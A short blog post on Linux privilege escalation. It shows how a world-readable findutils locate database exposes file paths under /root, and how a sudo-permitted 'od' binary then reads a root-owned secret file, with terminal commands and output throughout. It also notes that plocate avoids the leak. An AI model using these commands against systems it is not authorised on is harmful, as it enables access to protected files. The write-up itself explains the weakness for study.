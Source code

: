 ```yaml
---
layout: post
title: "Leaking file paths with findutils locate"
---
```


Say you are trying to escalate privileges on a linux box. You've found out that one of the binaries you are allowed to run as sudo enables you to read arbitrary files.

<div class="language-plaintext highlighter-rouge">
<div class="highlight">
<pre class="highlight">
<code>lowpriv@ubuntubox:~$ <span class="ow">sudo -l</span>
Matching Defaults entries for lowpriv on ubuntubox:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User lowpriv may run the following commands on ubuntubox:
    <span class="mi">(root) NOPASSWD: /usr/bin/od</span>
</code></pre></div></div>

You poke around, try to guess some paths for potentially interesting files, but you find nothing of use.

In this situation `locate` from `findutils` may come in handy if present on the box. The default db file of this version of `locate` is world readable and may disclose paths for files that your user has no access to.


<div class="language-plaintext highlighter-rouge">
<div class="highlight">
<pre class="highlight">
<code>lowpriv@ubuntubox:~$ <span class="ow">ls -la /var/cache/locate/locatedb</span>
-rw-r--r-- 1 root root 1208122 Dec  5 21:37 /var/cache/locate/locatedb
lowpriv@ubuntubox:~$ <span class="ow">locate -r '^/root/'</span>
/root/.bash_history
/root/.bashrc
/root/.profile
/root/.viminfo
/root/stuff
<span class="mi">/root/stuff/secret.txt</span>
lowpriv@ubuntubox:~$ <span class="c"># now use `od` to read secret.txt</span>
lowpriv@ubuntubox:~$ <span class="ow">printf "$(sudo od -An -c -w9999 /root/stuff/secret.txt  | sed 's/   //g')"</span>
Secret stuff...  
More secret stuff...
</code></pre></div></div>

Interestingly, `plocate` does not have this problem. The db file is not world-readable, and the command output seems to be filtered based on user permissions.

<div class="language-plaintext highlighter-rouge">
<div class="highlight">
<pre class="highlight">
<code>lowpriv@ubuntubox:~$ <span class="ow">ls -la /var/lib/plocate/plocate.db</span>
-rw-r----- 1 root plocate 2270301 Dec  6 21:37 /var/lib/plocate/plocate.db
lowpriv@ubuntubox:~$ <span class="ow">/usr/bin/plocate -r '^/root'</span>
/root
</code></pre></div></div>


